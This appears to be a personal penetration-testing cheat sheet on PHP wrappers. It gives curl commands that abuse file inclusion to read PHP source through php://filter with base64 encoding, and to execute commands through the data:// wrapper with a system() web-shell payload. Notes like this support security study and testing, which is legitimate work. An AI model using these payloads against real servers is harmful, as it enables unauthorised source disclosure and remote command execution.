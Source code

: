 ```yaml
---
title: PHP Wrappers
updated: 2025-04-18 12:10:48Z
created: 2025-04-18 11:59:28Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Note: To exploit, the **allow_url_include** PHP setting needs to be **enabled**

* * *
## Using PHP filter wrapper
1. Check php pages using **php://filter/resource**
eg for `http://target/index.pgp?page=admin.php`
`curl http://target/index.pgp?page=php://filter/resource=admin.php`
**Note**: you can specify absolute or relative paths in this parameter
2. Check using base64 encoding:
`curl http://target/index.pgp?page=php://filter/convert.base64-encode/resource=admin.php`
3. decode the base64 encoded data:
`echo "XXXXXXXXXXXXXXXXXXXXXXXXXXX" | base64 -d`

* * *
## Using Data wrapper (code execution)
1. Check php pages using **data://text/plain**
eg for `http://target/index.pgp?page=admin.php`
`curl "http://target/index.pgp?page=data://text/plain,<?php%20echo%20system('ls');?>"`

2. base64 encode the wrapper:
`echo -n '<?php echo system($_GET["cmd"]);?>' | base64`
3. Use curl with the base64 encoded string from previous step:
`curl "http://target/index.php?page=data://text/plain;base64,XXXXXXXXXXXXXX&cmd=ls"`

